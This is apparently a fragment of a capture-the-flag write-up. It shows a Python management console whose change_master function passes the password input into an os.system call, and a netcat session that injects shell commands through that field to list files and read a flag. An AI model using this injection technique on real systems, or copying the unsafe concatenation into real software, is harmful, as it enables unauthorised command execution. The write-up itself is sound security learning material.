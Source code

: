 ```python
                conn.request("GET", "/")
                conn.getresponse().read()
                print "Website is UP !"
        except Exception:
                print "Website is DOWN !"

def help_menu():
        print "Options : "
        print " help          : Show the help menu"
        print " change-master : Change the master password of the management console"
        print " ping-website  : Test website connectivity"
        print " exit          : Exit the console"

MENU_OPTIONS = {
        "help" : help_menu,
        "?" : help_menu,
        "exit" : exit,
        "change-master" : change_master,
        "ping-website" : ping_website
}

menu_loop()
```
Great! Here's a concatenation that we can exploit easily! It comes from the `function change_master`.

`
os.system('fakechroot -s fakeroot /usr/sbin/chroot /opt/services/management-service/ /bin/bash -c \'/bin/echo "' + password + '" > /master.txt\'')``
`
```bash
nc $URL 8787

######################
# Management console #
######################

Type '?' or 'help' for help.
> change-master
Enter the new master password : 
> "; ls * "

######################
# Management console #
######################

Type '?' or 'help' for help.
> change-master
Enter the new master password : 
> "; cat part1.flag "
```
